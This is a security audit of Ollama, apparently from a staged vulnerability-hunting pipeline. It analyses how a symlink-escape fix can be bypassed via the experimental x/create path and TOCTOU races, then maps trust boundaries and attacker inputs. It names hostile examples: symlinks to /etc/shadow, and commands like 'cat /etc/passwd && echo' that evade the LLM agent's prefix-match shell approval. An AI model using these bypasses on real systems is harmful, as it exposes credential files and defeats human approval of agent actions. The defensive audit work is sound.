The original CVE-2024-45436 sink in `server/model.go` is gone — the patch is
**superseded by removal of the entire feature**. However, the same pattern of
"unzip a downloaded archive into a directory" has been **re-introduced** in the
macOS updater path and the OpenClaw launcher path **without** the lessons of
the original CVE. These are independent CVE-class issues that warrant their
own advisories.

---

# d931ee8f — Symlink Escape Bypass Analysis

- **Commit**: `d931ee8f22d38a87d4ff1886ccf56c38697f3fa0`
- **Type**: undisclosed-fix (silent security fix; PR title was "create blobs in parallel")
- **Files patched**: `parser/parser.go` (`fileDigestMap`)
- **Cluster ID**: `cluster-symlink-escape`

## Patch Summary

The fix added a 3-step path validation to `fileDigestMap()` for every file
returned by `filesForModel()`:

```go
f, err := filepath.EvalSymlinks(f)              // resolve symlinks
rel, err := filepath.Rel(path, f)               // make relative to model dir
if !filepath.IsLocal(rel) {                     // reject paths that escape
    return nil, fmt.Errorf("insecure path: ...")
}
```

Pre-fix: a model directory containing `model.safetensors -> /etc/shadow`
would have the symlink target read, hashed, and uploaded to the local
blob store as a layer (and pushable to a registry).

The validation is gating only on the `parser.fileDigestMap` enumeration
that backs the standard `client.Create` API path used by the unprivileged
`ollama create` HTTP client flow.

## Bypass Hypotheses Tested

### 1. Alternate entry points (BYPASSED)

**Result: BYPASSED** — `x/create/create.go::CreateSafetensorsModel` and
`x/create/imagegen.go::CreateImageGenModel` enumerate the SAME model
directory via `os.ReadDir` and open files (`*.safetensors`, every `*.json`,
specific config files such as `tokenizer/vocab.json`, `text_encoder/config.json`,
`model_index.json`) via `os.Open` / `os.ReadFile` with **no symlink
resolution, no `filepath.IsLocal`, no `os.OpenRoot` containment**.

Concrete bypass path:

```
cmd/cmd.go:148 CreateHandler
  if --experimental:
    cmd/cmd.go:201  xcreateclient.CreateModel(opts)
      x/create/client/create.go:119  CreateModel
        x/create/create.go:653  CreateSafetensorsModel
          x/create/create.go:695  os.ReadDir(modelDir)        # plain readdir
          x/create/create.go:706  filepath.Join(modelDir, entry.Name())
          x/create/create.go:709  safetensors.OpenForExtraction(stPath)  # follows symlink
          x/create/create.go:874  os.Open(filepath.Join(modelDir, entry.Name()))   # any *.json
          x/create/create.go:879  createLayer(f, "...image.json", cfgPath)         # blob written
```

For image-gen models the same applies in `x/create/imagegen.go:135-198` —
the 9 hard-coded config files (`model_index.json`, `tokenizer/vocab.json`,
etc.) are opened via `os.ReadFile` / `os.Open` and persisted as blob
layers. A symlink at `<modelDir>/tokenizer/vocab.json -> /etc/shadow` is
read in full and stored as an Ollama image layer, mirroring the exact
pre-d931ee8f outcome.

**Gating caveat**: this entry point is gated behind the `--experimental`
CLI flag and an `isLocalhost()` check (cmd.go:161-165). It is therefore a
**default-state gap** rather than a fully exposed bypass — but once the
operator opts in (an explicitly documented user feature for safetensors
import), the protection that d931ee8f added is silently absent.

### 2. TOCTOU between EvalSymlinks and Open (PARTIALLY BYPASSABLE)

`fileDigestMap` resolves the symlink at parser/parser.go:173 and stores
the **resolved real path** in `files`. Later, `digestForFile`
(parser/parser.go:220) calls `filepath.EvalSymlinks(filename)` AGAIN on
the already-resolved path before `os.Open`.

If the real-path location is itself replaced with a new symlink between
the two `EvalSymlinks` calls, the second resolve walks the new symlink
and `os.Open` reads the swapped target. The `os.Open` at line 226 is not
performed on the file descriptor that was validated.

This is a real TOCTOU window. Exploitation requires write access to the
resolved real path location, so it is mainly relevant when the model
directory is on a path writable by another local user (e.g.
`/tmp/shared-models/`). It does NOT defend the `--upload-this-as-a-blob`
behavior under concurrent local-user attack.

`createBlob` in `cmd/cmd.go:332` ALSO repeats `EvalSymlinks` then `os.Open`
— same TOCTOU.

### 3. detectContentType opens files BEFORE the symlink check
(BENIGN INFO LEAK)

`filesForModel` calls `detectContentType` on every glob match
(parser/parser.go:264-265) which `os.Open`s the file. This happens BEFORE
the symlink check in `fileDigestMap`. For safetensors globs, the
`contentType` argument is `""`, so the type comparison at line 267 is
skipped — meaning ANY symlink target is opened and 512 bytes are read
for the type check.

Effect:
- Bounded read of 512 bytes (returned only via `http.DetectContentType`
  string, not stored).
- Side effect: opening device files (`/dev/zero`, FIFOs) can hang the
  goroutine before the validation ever runs.
- Side effect: `os.Open` on `/etc/shadow` as root succeeds before the
  IsLocal check rejects the path.

Not a confidentiality bypass for blob upload, but the symlink-induced
side effects (hang, audit log noise, FD pressure) are reachable.

### 4. Symlink to directory whose contents are walked (BLOCKED but caveat)

`filesForModel` uses `filepath.Glob`, which uses `os.Lstat` for matching
the final path component but `os.Stat` for intermediate ones (resolves
intermediate symlinks). A subdirectory that is itself a symlink to `/etc`
is followed when matching `**/*.json` or `**/tokenizer.model`.

However, Go stdlib `filepath.Glob` does not implement `**` recursive
matching — `**` is treated as a single-segment glob, so `<modelDir>/**/*.json`
only matches one level of subdirectories. The post-glob symlink check
still catches the resolved path, so this is blocked in `fileDigestMap`.

But in the `x/create` path (hypothesis #1), `os.ReadDir` enumerates direct
entries and `safetensors.OpenForExtraction` follows symlinks to opened
files. Combined with hypothesis #1 this remains a bypass.

### 5. Windows path semantics (POTENTIALLY BYPASSABLE)

`filepath.IsLocal` on Windows treats drive-rooted paths (`C:\...`) and
UNC paths (`\\server\share\...`) as non-local, so the standard cases are
covered. However:

- **Junctions and reparse points**: `filepath.EvalSymlinks` follows NTFS
  junctions, so a junction pointing outside the model dir is resolved and
  then rejected by `IsLocal`. Safe.
- **Long path prefix (`\\?\`)**: `EvalSymlinks` may return a `\\?\C:\...`
  prefixed path on Windows. `filepath.Rel(modelDir, "\\?\C:\foo\bar")`
  may produce non-canonical results that defeat `IsLocal` lexical
  comparison. Worth runtime testing on Windows; current macOS/Linux tests
  in repo cover none of this.
- **Alternate Data Streams (ADS)**: `model.safetensors:hidden` is one
  filename on NTFS — `filepath.Glob` does NOT match ADS suffixes, so not
  reachable via the glob, but a Modelfile path that explicitly references
  `<modelDir>/foo:bar` would bypass the directory enumeration.

### 6. Race during parallel blob creation (BYPASSED via TOCTOU)

The post-d931ee8f code creates blobs in parallel (`errgroup` in
cmd/cmd.go:257). The parallelism amplifies the TOCTOU race in
hypothesis #2 — many goroutines call `createBlob` -> `EvalSymlinks` ->
`os.Open` concurrently after `fileDigestMap` already validated the
paths once. An attacker swapping symlinks between validation and any
goroutine's open succeeds with high probability.

### 7. Default-state gaps (BYPASSED)

`--experimental` (hypothesis #1) is the primary default-state gap. There
is no other env-var gate that disables the symlink check itself.

### 8. Parser differentials (NOT FOUND)

`expandPath` (parser/parser.go:632) does NOT call `EvalSymlinks` on the
model directory path itself before passing it to `fileDigestMap`. That
means if the user's model dir is itself a symlink (e.g.
`./models/foo -> /home/user/realmodels/foo`), then `filepath.Rel(symlinkDir,
realPath)` produces a relative path full of `..` and `IsLocal` returns
`false`. This causes legitimate symlinked model dirs to FAIL with
"insecure path" — a usability bug, not a security bypass. (No CVE
material here, but it is the kind of thing that drives users to disable
the check or shell-out to copy the dir, which expands the bypass surface.)

### 9. Sibling ADAPTERS path (PROTECTED — same code path)

`fileDigestMap` is invoked for both `model` and `adapter` Modelfile
commands (parser/parser.go:71 and 92), so the symlink check covers both.

## Conclusion

**PARTIALLY_BYPASSED**

- The parser/parser.go fix is correct **for the legacy `client.Create`
  HTTP API path** that the d931ee8f commit was scoped to.
- The same vulnerability class exists, unfixed, in `x/create/create.go`
  and `x/create/imagegen.go` (`CreateSafetensorsModel`,
  `CreateImageGenModel`) reached via `cmd/cmd.go --experimental`. This is
  the **relocated/incomplete** form of the same bug: a symlinked
  `tokenizer/vocab.json` or `model_index.json` is read in full and
  written to the local blob store as a model layer, with no
  `EvalSymlinks` / `IsLocal` / `OpenRoot` defense.
- A real TOCTOU race exists in both `fileDigestMap`+`digestForFile` and
  `createBlob` due to repeated `EvalSymlinks`-then-`Open` patterns. Risk
  is bounded to threat models where another local principal can write to
  the resolved real-path location.
- The fix has no Windows-specific test coverage; `\\?\` long-path prefix
  behavior under `filepath.Rel`/`IsLocal` should be confirmed on Windows.

## Notes for Phase 5/8

- **Phase 5 (chamber: x/create symlink escape)**: Strong candidate for a
  patch-bypass finding. The same vulnerability class that d931ee8f fixed
  in `parser` exists unfixed in `x/create`. Recommended chamber prompt:
  "Show that `x/create.CreateSafetensorsModel` and
  `x/create.CreateImageGenModel` will read and persist as blobs the
  contents of `<modelDir>/tokenizer/vocab.json` (and any other listed
  config) when that path is a symlink to an arbitrary file the ollama
  process can read."
- **Phase 5 (chamber: TOCTOU on EvalSymlinks pair)**: Lower priority,
  needs a multi-user threat model. Useful for completeness.
- **Phase 8 (regression hardening)**: Suggest an `os.OpenRoot(modelDir)`
  wrapper used by both `parser.fileDigestMap` and the `x/create` family,
  combined with `root.Open` for all subsequent reads. This eliminates
  both the alternate entry point AND the TOCTOU race.
- **Cluster note**: This commit is a single-commit cluster from
  Phase-2 commit-archaeologist. No adjacent commits touch the same
  `filesForModel` / `fileDigestMap` functions in the same window.


---

# Phase 3 — Knowledge Base Build

Appended 2026-04-17 by Knowledge Base Builder (Phase 3). All line/file references validated at HEAD `57653b8e` on branch `audit`. This section consumes Phase 1 (advisory-hunter) and Phase 2 (commit-recon / bypass-analysis) artifacts and produces the mandatory input for Phases 4–11.

## Project Type Classification

Ollama is a **multi-modal Go binary** that functions simultaneously as:

| Role | Evidence |
|------|----------|
| **HTTP API server** | `server.Server.GenerateRoutes` exposes 30+ REST endpoints on default `127.0.0.1:11434` (`server/routes.go:1646`). Accepts `/api/*` native protocol, `/v1/*` OpenAI-compat, `/v1/messages` Anthropic-compat, and an embedded registry fallback (`server/internal/registry/server.go`). |
| **CLI** | `cmd/cmd.go::NewCLI` (`cmd/cmd.go:2079`) — 2416 LOC of cobra commands (`run`, `pull`, `push`, `create`, `cp`, `rm`, `show`, `list`, `ps`, `serve`, `signin`, `signout`). CLI dispatches to the HTTP API (localhost `:11434`) for most operations. |
| **SDK library** | `api.Client` (`api/client.go`) is an exported Go module for third-party use. Its own `getAuthorizationToken` (`api/client.go:88`) duplicates server-side logic and historically had the same CVE-2025-51471 class bug. |
| **Native-code host via cgo** | `llama/llama.go` (68 `C.*` calls in one file) links vendored llama.cpp + ggml into the runner process. `runner.Execute` dispatches to `llamarunner`, `ollamarunner`, `mlxrunner`, or `imagegen` — all child processes run cgo code on attacker-influenced bytes (GGUF, image buffers, token strings). |
| **Desktop application** | `cmd/launch/` plus `app/` (Electron-style desktop wrapper) and `cmd/background_{unix,windows}.go` for tray integration. `cmd/launch/openclaw.go::ensureWebSearchPlugin` extracts tar archives locally — ZipSlip relocation surface (see `archon/bypass-analysis/cve-2024-45436-zipslip.md`). |
| **Plugin host / tool-use runtime** | `x/agent/approval.go` + `x/tools/{bash,webfetch,websearch}.go` implement an LLM-driven shell executor (with user approval loop) and a web-fetch/search proxy. LLM output drives privileged actions. |
| **Multi-tenant proxy client** | `server/cloud_proxy.go` forwards select inference/registry requests to `https://ollama.com` using local ed25519 key signing. Cloud passthrough middleware rewrites model names and injects Authorization. |

**Primary project types for threat modeling**: server, CLI, library, plugin host, desktop, protocol client. **Not** a worker, CI action, or browser extension.

---

## Architecture Model

### Top-Level Packages — Ownership and Trust Role

| Package | LOC | Role | Trust Zone |
|---------|-----|------|------------|
| `server/` | ~7500 | HTTP handlers, model cache, blob download/upload, auth, cloud proxy | **untrusted input boundary** |
| `server/internal/registry/` + `server/internal/client/ollama/` | ~1600 | New-style OCI pull handler (the `Local` fallback wrapper) + ollama.com OCI client | untrusted input (manifest, blobs) |
| `middleware/` (openai, anthropic) | ~1750 | Request/response transformation for `/v1/*` API compatibility; zstd body decompression | untrusted input |
| `openai/` | ~2300 | OpenAI protocol types + responses API transformation | untrusted input |
| `api/` | ~1300 | Public SDK types + `Client` with its own registry auth path | untrusted input (consumers of library) |
| `cmd/` (+ `cmd/launch/`, `cmd/runner/`, `cmd/tui/`) | ~5000 | CLI dispatch, TUI, launcher, platform-specific start code | mostly trusted (runs as user) but consumes network + `$PATH` |
| `parser/` | 671 | Modelfile parser, `filesForModel`/`fileDigestMap` (local FS) | user-controlled file (Modelfile, mounted directories) |
| `template/` | 646 | `text/template` wrapper; `Vars`, `Identifiers` walk; pattern-matching against vendored templates | LLM prompt + untrusted Modelfile TEMPLATE |
| `tools/` | ~700 | Tool/function-call protocol types + prompting (not the x/agent tool executor) | LLM output |
| `tokenizer/` | ~2000 | BPE / SentencePiece / WordPiece implementations in Go | untrusted (vocab, added tokens come from GGUF / safetensors) |
| `harmony/` | 480 | gpt-oss harmony format streaming parser | untrusted LLM output |
| `thinking/` | 220 | Think-tag streaming parser | untrusted LLM output |
| `sample/` | 350 | Logit sampler implementations (top-k, top-p, min-p, temperature) | trusted numerics |
| `convert/` | ~4000 | HF safetensors/PyTorch → GGUF converter (24 architectures) | untrusted input (HF model files) |
| `fs/ggml/` (legacy) + `fs/gguf/` (new streaming) | ~2000 | GGUF decoders | untrusted file |
| `manifest/` | 470 | OCI-style manifest paths, digest regex, `BlobsPath` validator | first line of digest defense |
| `model/` (models, parsers, renderers, imageproc) | ~10000 | Go-native model architectures (subset for GGUF inference); HF config-format transformation | untrusted |
| `runner/llamarunner/`, `runner/ollamarunner/` | ~2500 | Per-process HTTP server (model runner) — receives JSON from parent `server/` process | semi-trusted (parent-to-child) but feeds attacker bytes straight to cgo |
| `x/mlxrunner/` | ~3500 | Apple MLX backend runner (separate binary) + HF converter for MLX |  untrusted |
| `x/create/` | ~1500 | Experimental direct-import flow for Safetensors and image-gen models (bypasses `parser/`) | high-risk, partial validation |
| `x/agent/` | 1125 | Approval state machine + allowlist/denylist for LLM tool execution | **privilege transition** |
| `x/tools/` | ~540 | `bash`, `web_fetch`, `web_search` tool impls called from agent | privilege transition |
| `x/imagegen/transfer/` | 1060 | New-style streaming transfer protocol (the `pullWithTransfer` fast path) | untrusted |
| `x/server/show.go` | ~500 | Experimental `/api/show` impl variant | untrusted |
| `llama/` | ~800 Go + vendored C++ | cgo bridge to llama.cpp (Decode, LoadModel, Tokenize, `MultimodalTokenize`, Sampling, Grammar, KV cache ops) | **cgo trust boundary** |
| `ml/backend/ggml/` | ~300 Go + vendored ggml C | Alternate ggml binding (used by `ollamarunner`) | cgo trust boundary |
| `auth/auth.go` | 86 | ed25519 `~/.ollama/id_ed25519` key management, `Sign()`, nonce, `GetPublicKey` | identity boundary |
| `envconfig/` | 350 | Env-var config (OLLAMA_HOST, OLLAMA_ORIGINS, OLLAMA_MODELS, OLLAMA_KV_CACHE_TYPE, OLLAMA_NO_CLOUD, insecure cloud override) | control surface |
| `discover/` | — | GPU probing (nvml, metal, rocm) | runs priv'd tools (nvidia-smi) |
| `app/` | — | Desktop wrapper (Electron/Tauri) | browser/renderer trust |

### Trust Boundaries (ordered from outermost attacker ingress to most trusted core)

```
[Remote attacker / hostile origin browser]
        │
        ▼  boundary B1 — CORS + allowedHostsMiddleware (server/routes.go:1608 allowedHostsMiddleware; server/routes.go:1672 AllowedOrigins())
[HTTP request as gin.Context]
        │
        ▼  boundary B2 — Handler binding: ShouldBindJSON (no size limit) / readRequestBody via io.ReadAll (server/cloud_proxy.go:289; server/routes.go:2101)
[Parsed api.*Request struct]
        │
        ▼  boundary B3 — parseAndValidateModelRef (server/model_resolver.go:36) / manifest.BlobsPath digest regex (manifest/paths.go:40-47)
[Canonicalized model ref / digest path]
        │
        ▼  boundary B4 — PullModel/makeRequest against remote registry (server/images.go, server/download.go)
[Remote registry response: manifest JSON + layer blobs + WWW-Authenticate challenge]
        │
        ▼  boundary B5 — verifyBlob / streaming sha256 hasher (server/download.go / server/fixblobs.go) — integrity gate
[On-disk blob in $OLLAMA_MODELS/blobs/]
        │
        ▼  boundary B6 — ggml.Decode / gguf.Open parser (fs/ggml/gguf.go:141; fs/gguf/gguf.go:47)
[Parsed TensorInfo + KV map in Go memory]
        │
        ▼  boundary B7 — Runner IPC (parent 'server' spawns 'ollama runner' subprocess with model path; JSON-over-HTTP localhost)
[Runner HTTP handler in-process]
        │
        ▼  boundary B8 — cgo call into C (llama.cpp / ggml / mtmd / MLX) with Go-computed pointers & lengths (llama/llama.go has 68 C.* calls)
[Native heap operations; tensor compute; token generation]
```

**Additional privilege-transition boundaries** (not layered; side-channels):
- **B9 — agent tool approval** (`x/agent/approval.go`) — LLM output → user-typed y/n → `exec.CommandContext("bash","-c", llmString)` in `x/tools/bash.go:64`
- **B10 — cloud proxy signing** (`server/cloud_proxy.go:210 cloudProxySignRequest`) — local client request → signed via `auth.Sign` with `~/.ollama/id_ed25519` → outbound to `ollama.com`
- **B11 — archive extraction** (`cmd/launch/openclaw.go::ensureWebSearchPlugin` tar; `server/internal/manifest` — ZipSlip path relocation surface per `cve-2024-45436-zipslip.md`)
- **B12 — env-controlled binary invocation** (`$EDITOR`/`$VISUAL` fed to `exec.Command(args[0], args[1:]...)` in `cmd/cmd.go`, ref commit `0aaf6119`)

### Layer Trust Chain — Who Trusts What

The critical insight is that **every layer below B4 assumes the layer above validated the data** — often incorrectly.

| Layer | Assumes prior layer validated | Still vulnerable to |
|-------|-------------------------------|---------------------|
| `ggml.Decode` (`fs/ggml/gguf.go:141`) | File-size bound check (added `9d902d63`, 2026-02-24) | Unbounded `readGGUFString` length (reads `uint64` then `make([]byte, n)`) — DoS vector; integer overflow in `dims * sizeof(uint64)` shape allocation; CVE-2025-66959/66960 pattern recurring |
| `gguf.Open` (`fs/gguf/gguf.go:47`) | Caller already downloaded via digest-verified blob | No digest verification of file itself; `readString` (gguf.go:188) allocates `f.bts = make([]byte, n)` from an attacker-controlled `uint64` — the classic CVE-2024-39720 / CVE-2025-0315 memory-DoS pattern. **Also reachable from `/api/blobs/:digest` direct upload before digest verify runs.** |
| `parser/fileDigestMap` (parser.go) | Caller passed a trustworthy dir path | Symlink escape (fixed `d931ee8f` for parser, **relocated unfixed in `x/create/create.go`** — see `archon/bypass-analysis/d931ee8f-symlink.md`) |
| `llama.MultimodalTokenize` (`llama/llama.go:556`) | `data []byte` is an already-validated image | Raw `&data[0]` + `len(data)` passed directly to `C.mtmd_helper_bitmap_init_from_buf`. **CVE-2025-15514** is a known null-ptr in this exact path. Untrusted image bytes → native code. |
| `template.Parse` (`template/template.go:145`) | Text comes from a trusted Modelfile | Any Modelfile-uploaded TEMPLATE runs through `text/template` (not `html/template`, per commit `62d29b21`) — no size limit, no timeout, and `Identifiers()`/`Vars()` panic on nil nodes before fix `1ed2881e` |
| `pullWithTransfer` (`server/images.go:721`) | Layer digests have been validated | **Does not call `manifest.BlobsPath()`** to canonicalize the on-disk path. Re-introduces CVE-2024-37032 class path traversal when the remote manifest contains a crafted digest (`archon/bypass-analysis/cve-2024-37032-path-traversal.md`). |
| `server.allowedHostsMiddleware` (`server/routes.go:1608`) | Any local IP is a trusted caller | `host.IsPrivate()` allows all RFC1918. DNS rebinding still works against a home user whose `OLLAMA_HOST=0.0.0.0` (documented in `archon/bypass-analysis/cve-2024-28224-dns-rebinding.md`). |
| `cloudPassthroughMiddleware` (`server/cloud_proxy.go:73`) | Request model field is syntactically valid | zstd max-memory set to 8 MB but still decodes up to 20 MB output before any auth — arbitrary unauthenticated decompression CPU burn; no per-IP rate limit |
| `x/tools/bash` (`x/tools/bash.go:64`) | Prefix approval machinery (`extractBashPrefix`) validated the command | Approval is a **prefix match**, not a command parse. `sed -i '1i malicious' ok/file` or `cat /etc/passwd && echo` bypass the first pipe split (`approval.go:206`). See `archon/bypass-analysis/44179b7e-agent-path.md`. |
| `x/create` (`x/create/create.go`, `x/create/imagegen.go`) | Input dir comes from trusted CLI flag | Same symlink-escape vulnerability class that `parser/` fixed in `d931ee8f`, **unfixed** here — see `archon/bypass-analysis/d931ee8f-symlink.md` §3. |

---

## Attacker-Controlled Inputs

For each source: where it enters, who parses it first, what security-critical operation it reaches, and whether there is an existing defense. **Bold** entries have a known-broken or suspected defense.

### Network — HTTP Request Body

| Endpoint | Parser | Critical sink | Protection (HEAD 57653b8e) |
|----------|--------|---------------|----------------------------|
| `POST /api/generate`, `/api/chat`, `/api/embed`, `/api/embeddings` (`routes.go:1712-1715`) | `c.ShouldBindJSON(&req)` — **no size limit** | Model load + prompt → llama.cpp cgo; `req.Images[]` → `MultimodalTokenize` | allowedHosts, CORS; no body size cap |
| `POST /api/pull`, `/api/push` (`routes.go:1689-1690`) | `ShouldBindJSON` → `parseNormalizePullModelRef` | Egress HTTP to arbitrary registry host; file writes to `$OLLAMA_MODELS/blobs/` | digest regex check in `manifest.BlobsPath` (but bypassed by `pullWithTransfer` per Phase 2) |
| `POST /api/create` (`routes.go:1703`) | `ShouldBindJSON(&api.CreateRequest)` → then `model.ParseName`, `parseFromModel` | Reads arbitrary files from user supplied blob dir; may fetch tensors across the network; **`r.Files[v]` is validated with `fs.ValidPath`** (create.go:69) but **only the key is validated, not the digest** | Partial — `fs.ValidPath` rejects `..` but only on the filename side of the map |
| `POST /api/blobs/:digest` (`routes.go:1704`) | `c.Param("digest")` → `manifest.BlobsPath(digest)` → `os.Create` + streamed write | Writes any uploaded bytes to the blob store; **no client authentication**; subsequent GGUF load uses these bytes | digest regex (first line of defense only) |
| `HEAD /api/blobs/:digest` (`routes.go:1705`) | same | Reveals presence of blob on disk | same |
| `POST /api/copy`, `/api/delete` (`routes.go:1706,1694`) | ShouldBindJSON → `model.ParseName` → `manifest.PathForName` | Deletes files under `$OLLAMA_MODELS/manifests/`; CVE-2025-44779 lineage | Manifest-path validation only |
| `POST /api/show` (`routes.go:1693`) | ShouldBindJSON → `manifest.ParseNamedManifest` | Reads Modelfile/template/parameters from disk; discloses file existence | — |
| `POST /api/experimental/web_search`, `/api/experimental/web_fetch` (`routes.go:1707-1708`) | **`readRequestBody` via `io.ReadAll` — no size limit** (`cloud_proxy.go:289`) | Forwarded verbatim to `ollama.com` as signed request — **the client’s body is trusted as-is, no URL validation** | — |
| `POST /v1/chat/completions`, `/v1/completions`, `/v1/embeddings`, `/v1/responses`, `/v1/audio/transcriptions`, `/v1/images/{generations,edits}` (`routes.go:1720-1730`) | `cloudPassthroughMiddleware` → zstd decompress up to 8 MB input / 20 MB output → `extractModelField` → `parseAndValidateModelRef` | Either passes to internal Chat/Generate/Embed handler or proxies to ollama.com | 8/20 MB cap; **no auth gate on zstd decompression** (free CPU DoS) |
| `GET /v1/models/:model` (`routes.go:1724`) | `c.Param("model")` → `parseAndValidateModelRef` | `cloudModelPathPassthroughMiddleware` either proxies or calls ShowHandler | — |
| `POST /v1/messages` (Anthropic) (`routes.go:1733`) | AnthropicMessagesMiddleware transforms body | → ChatHandler | — |
| `POST /api/me`, `/api/signout`, `DELETE /api/user/keys/:encodedKey` (`routes.go:1696,1698,1700`) | `encodedKey` is URL param | Signs requests to ollama.com with local ed25519 | — |
| `POST /api/pull` (legacy newstyle `registry.Local.handlePull`) (`server/internal/registry/server.go:259`) | `decodeUserJSON[*params]` — **`io.ReadAll` equivalent** on body | Runs through new OCI client code | — |

### Network — HTTP Headers (observed on hot paths)

| Header | Consumer | Use |
|--------|----------|-----|
| `Host` | `allowedHostsMiddleware` (`routes.go:1620`) | DNS-rebinding gate; also used as Host for re-proxying in cloud |
| `Origin` | CORS middleware (`routes.go:1677`) | Wildcard-friendly (`app://*`, `file://*`, `tauri://*`, `vscode-webview://*`) |
| `Authorization` | bearer parsing in cloud proxy + passed through openai middleware | Set from local ed25519 signing for cloud egress; OAuth-style bearer on `/v1/*` accepted but not currently validated |
| `Content-Type` | gin ShouldBindJSON + `detectContentType` in model upload (`server/model.go:114`) | Controls parser branch |
| `Content-Encoding: zstd` | `cloudPassthroughMiddleware` (`cloud_proxy.go:81`) + `middleware/openai.go` mirror | Decompresses with `zstd.WithDecoderMaxMemory(8<<20)` and `MaxBytesReader(... , 20<<20)` |
| `Range` | `server/download.go` via `makeRequest` | Used to resume blob downloads — server-side HTTP 206 content-range is **not validated** (`2aee6c17` bypass Finding 4) |
| `WWW-Authenticate` | `parseAuthChallenge` → `getAuthorizationToken` (`server/auth.go:53`) | Extracts realm/service/scope; realm host is now checked against original host (fix `7601f0e9`, CVE-2025-51471) — **api/client.go has a weaker variant** |
| `Location` (on HTTP 302/307 to direct URL) | `CheckRedirect` closure (`server/download.go:240`) | Allows same-hostname cross-scheme redirects; 10 hop limit |

### Network — URL Path / Query Params

| Source | Sink | Protection |
|--------|------|------------|
| `:digest` in `/api/blobs/:digest` | `manifest.BlobsPath` regex | `^sha256[:-][0-9a-fA-F]{64}$` |
| `:model` in `/v1/models/:model` | `parseAndValidateModelRef` | model.Name IsValid |
| `:encodedKey` in `/api/user/keys/:encodedKey` | `base64.RawURLEncoding.DecodeString` presumed | — (not audited deeply) |
| `?ts=` on cloud-proxy signature URLs | passed through in auth.Sign data buffer | — |
| manifest `"from"` layer field in OCI response | `pullModelManifest` → layer iteration | depends on fast-path vs legacy; legacy verifies, `pullWithTransfer` does not |

### Network — Model-Registry Response (2nd-party attacker surface)

A compromised or malicious registry (or a `pull`-intermediate MITM with `Insecure=true`) controls:

| Field | Parser / Consumer | Known bug class |
|-------|-------------------|-----------------|
| Manifest JSON | `json.Unmarshal(&manifest.Manifest)` in `pullModelManifest` | No size cap on response body (`makeRequest` reads into memory) — CVE-2025-1975 array-index pattern |
| Per-layer `Digest` field | Used by `manifest.BlobsPath` AND `pullWithTransfer` | Fast path skips canonicalization → CVE-2024-37032 bypass |
| Per-layer `Size` field | Allocated as part of transfer | Trusted for progress calculation; conceivable OOM if > free disk but bounded by `file.Truncate` |
| Per-layer `MediaType` | Dispatches parser in `parseFromModel` (server/model.go:51) | Determines whether blob is parsed as GGUF, projector, adapter (each has different parser reach) |
| Layer body (GGUF bytes) | `fs/ggml/gguf.go::Decode` + eventually `fs/gguf/gguf.go::Open` when loaded in runner | Entire history of GGUF CVEs is here: CVE-2024-39720, CVE-2025-0312/0315/0317, CVE-2025-66959/66960; bypass confirmed for `tensorEnd` fix (`9d902d63`) |
| Layer body (projector / mllama vision) | `mllama` intermediate_layers_indices parser (C++) | Sonar-OOB-2025 CVE pending |
| Layer body (adapter / lora) | `llama.Model.ApplyLoraFromFile` → `C.llama_adapter_lora_init` | Passed as path to C — attacker file is a full C parser input |
| Layer body (Modelfile template/params) | `template.Parse` / JSON decode | Template SSTI not exploitable (missingkey=zero) but DoS via nil nodes (fix `1ed2881e`) |
| `WWW-Authenticate` challenge on 401 | `parseAuthChallenge` | Realm host check added `7601f0e9`; **api/client.go variant may still lack it** — verify |
| Response `Content-Encoding` (gzip/zstd) | `http.Client` default unzip + `cloud_proxy.go` zstd | CVE-2024-12886 (gzip bomb) was patched in `io.ReadAll` call paths — **but `makeRequest` still uses `io.ReadAll(response.Body)` in `getAuthorizationToken`** (server/auth.go:81) |
| Response HTTP/2 frame stream | go stdlib | Tracks golang.org/x/net fixes |

### Local — User-Supplied Model Files (via CLI or `POST /api/create`)

| Source | Parser | Sink | Protection |
|--------|--------|------|------------|
| Modelfile `MODEL`/`ADAPTER` path | `parser.expandPath` + `parser.fileDigestMap` | Full-file read + sha256; becomes a blob | symlink check via `filepath.IsLocal` added `d931ee8f` for `parser/`; **missing in `x/create/`** |
| Safetensors directory (for `x/create.CreateSafetensorsModel`) | `convert.parseSafetensors` (`convert/reader_safetensors.go:25`) | reads uint64 header length; `make([]byte, 0, n)` then `io.CopyN(n)` → decodes JSON | **unbounded `n` → memory DoS**; no symlink check |
| PyTorch `.bin` (`convert/reader_torch.go`) | torch pickle-equivalent | streamed to GGUF | untested — pickle parsers historically unsafe |
| `tokenizer.json`, `tokenizer.model`, `vocab.json` | `tokenizer/` BPE/SP/WP readers | vocab passed to grammar, to `llama.Grammar`, and to `NewGrammar(vocabIds, vocabValues, eogTokens)` → cgo | No size caps on vocab arrays |
| SentencePiece `sentencepiece_model.proto` | `convert/sentencepiece` protobuf decoder | Used to build vocab | protobuf untested for maliciously nested messages |
| Image (base64 in `Images: []string`) | `base64.StdEncoding.DecodeString` → WebP / JPEG / PNG detection (`golang.org/x/image/webp`) → passed as raw `[]byte` to `llama.MultimodalTokenize` → `C.mtmd_helper_bitmap_init_from_buf` | CVE-2025-15514 null-deref; **no size cap**, no content-sniff sanity check |
| Audio (in `/v1/audio/transcriptions` via `TranscriptionMiddleware`) | multipart parsing | ChatHandler message content | — |

### Local — Filesystem and Environment

| Source | Consumer | Threat |
|--------|----------|--------|
| `$HOME/.ollama/id_ed25519` | `auth.Sign` (`auth/auth.go:53`), `auth.GetPublicKey`, cloud proxy signing | File perms not checked — commit `64883e3c` removed `/usr/share/ollama` fallback but HOME-dir perms still not validated |
| `$OLLAMA_MODELS/blobs/*` | GGUF loader | Any other local principal who can write to blobs has RCE via crafted tensor |
| `$OLLAMA_MODELS/manifests/**` | `ParseNamedManifest` | Compromised manifest triggers same chain |
| `$VISUAL`, `$EDITOR` | `exec.Command(args[0], args[1:]...)` in `cmd/cmd.go` (commit `0aaf6119`) | If env var controlled (e.g., via remote-dev tooling), remote program execution |
| `$OLLAMA_HOST` | determines listen addr | `0.0.0.0` disables local-only DNS-rebind mitigation |
| `$OLLAMA_ORIGINS` | CORS allow list | user-influenceable |
| `$OLLAMA_CLOUD_BASE_URL` | cloud proxy endpoint | Only overrideable in non-prod mode, per `cloud_proxy.go:68-70` |
| `$OLLAMA_KV_CACHE_TYPE` | runner KV cache type | untrusted string passed to llama params (`llama.go:122`) |

### Identity / Agent

| Source | Consumer | Threat |
|--------|----------|--------|
| Tool-call arguments (LLM JSON) | `x/tools/bash.Execute`, `web_fetch.Execute`, `web_search.Execute` | `bash -c <llm-string>` after prefix approval; web_fetch URL accepts any scheme including `file://` — **no scheme allowlist** in Execute (webfetch.go:85 only does url.Parse) |
| User y/n to approval prompt | TTY / `term` | Denial-of-wetware: attacker-friendly prompts may be approved |
